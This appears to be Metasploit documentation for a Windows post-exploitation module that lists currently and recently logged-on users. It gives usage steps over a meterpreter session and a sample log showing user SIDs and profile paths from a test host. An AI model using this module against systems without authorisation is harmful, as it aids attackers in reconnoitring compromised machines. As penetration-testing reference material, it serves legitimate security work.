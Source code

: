 
## Vulnerable Application

This module will enumerate current and recently logged on Windows users.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/enum_logged_on_users```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **CURRENT**

  Enumerate currently logged on users.

  **RECENT**

  Enumerate Recently logged on users.

  **SESSION**

  The session to run this module on.

## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49196) at 2019-12-13 04:36:54 -0700

  msf exploit(multi/handler) > use post/windows/gather/enum_logged_on_users
  msf post(windows/gather/enum_logged_on_users) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_logged_on_users) > run

  [*] Running against session 1

    Current Logged Users
    ====================

    SID                                            User
    ---                                            ----
    S-1-5-21-3113421791-4205713440-112141152-1000  TEST-PC\TEST


    [+] Results saved in: /root/.msf4/loot/20191213054456_default_192.168.1.10_host.users.activ_424278.txt

    Recently Logged Users
    =====================

    SID                                            Profile Path
    ---                                            ------------
    S-1-5-18                                       %systemroot%\system32\config\systemprofile
    S-1-5-19                                       C:\Windows\ServiceProfiles\LocalService
    S-1-5-20                                       C:\Windows\ServiceProfiles\NetworkService
    S-1-5-21-3113421791-4205713440-112141152-1000  C:\Users\TEST


    [*] Post module execution completed
  ```

